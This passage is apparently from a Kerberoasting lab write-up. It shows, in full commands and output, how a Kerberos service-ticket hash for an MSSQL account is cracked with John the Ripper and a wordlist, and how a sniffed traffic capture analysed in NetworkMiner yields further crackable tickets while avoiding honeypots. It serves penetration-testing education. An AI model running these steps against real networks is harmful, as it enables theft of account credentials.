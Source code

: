 This hash is in the same format as the one generated by `GetUserSPNs.py`, so we can simply crack it like before:

```
echo '$krb5tgs$23$*USER$ASIA.EARTH.LOCAL$MSSQLSvc/SQL01.asia.earth.local*$8200b8c15cc96a7fa[...snip...]9b4b' > svc_sql.hash

john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt svc_sql.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (?)     
1g 0:00:00:00 DONE (2025-06-29 11:14) 100.0g/s 819200p/s 819200c/s 819200C/s diego1..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Similarly, if you're afraid of honeypots, you can simply listen on a network for legitimate service ticket request and cracking the resultant service ticket offline.

```
root@staging01:~# tcpdump -i any -w out.pcap
tcpdump: data link type LINUX_SLL2
tcpdump: listening on any, link-type LINUX_SLL2 (Linux cooked v2), snapshot length 262144 bytes
^C309 packets captured
310 packets received by filter
0 packets dropped by kernel
```

Bring this offline, and open it with [NetworkMiner](https://www.netresec.com/?page=NetworkMiner):

![](./assets/47944ef310dee36a5713c326ad907cb4.png)

Right Click -> Copy Password, then crack these as usual:

```
> echo '$krb5tgs$23$af[...snip...]3f988e32285001c269be3ee0cfd693c124a835e76f2d4ed35e5177986ce5fed49a002170b1742a9edd04f' > svc_sql.hash

> john --format=krb5tgs --wordlist=/usr/share/wordlists/rockyou.txt svc_sql.hash 
Using default input encoding: UTF-8
Loaded 1 password hash (krb5tgs, Kerberos 5 TGS etype 23 [MD4 HMAC-MD5 RC4])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
P@ssw0rd         (?)     
1g 0:00:00:00 DONE (2025-06-29 11:21) 100.0g/s 819200p/s 819200c/s 819200C/s diego1..total90
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```
